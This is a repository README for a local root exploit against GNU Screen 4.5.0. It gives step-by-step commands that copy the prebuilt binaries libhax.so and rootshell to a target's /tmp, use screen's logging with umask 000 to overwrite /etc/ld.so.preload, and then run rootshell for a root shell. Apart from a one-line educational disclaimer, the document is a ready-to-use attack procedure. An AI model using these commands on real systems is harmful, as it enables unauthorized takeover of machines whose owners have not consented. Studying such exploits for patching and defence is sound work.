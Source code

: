 # GNU Screen-4.5.0 Local-Privilege-Escalation


---

# Screenroot Exploit

This repository contains the binary files `libhax.so` and `rootshell`, which are part of a local root exploit for screen version 4.5.0. This exploit abuses `ld.so.preload` overwriting to escalate privileges.

## Disclaimer
This code is for educational purposes only. Do not use this exploit on systems you do not own or have explicit permission to test.

## Requirements
- A machine with `screen` version 4.5.0 or a vulnerable version installed.
- Access to the target machine where you can transfer and execute the binaries.

## Exploit Execution

### 1. Clone this repository
First, clone the repository to your local machine:

```bash
git clone https://github.com/H420Prajyot/GNU-Screen-4.5.0---Exploit.git
cd screenroot-exploit
```

### 2. Transfer the binaries
Copy the `libhax.so` and `rootshell` binaries to the target machine. You can use `scp` or another method of file transfer:

```bash
scp libhax.so rootshell user@target:/tmp/
```

### 3. Set the appropriate permissions
On the target machine, change the permissions of the `rootshell` binary:

```bash
chmod +x /tmp/rootshell
```

### 4. Exploit the vulnerability
To exploit the vulnerability, run the following commands on the target machine:

```bash
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so"
```

This overwrites `ld.so.preload`, which allows the exploit to escalate privileges.

### 5. Trigger the exploit
Now, trigger the `rootshell` to obtain a root shell:

```bash
/tmp/rootshell
```

You should now have root access.

---

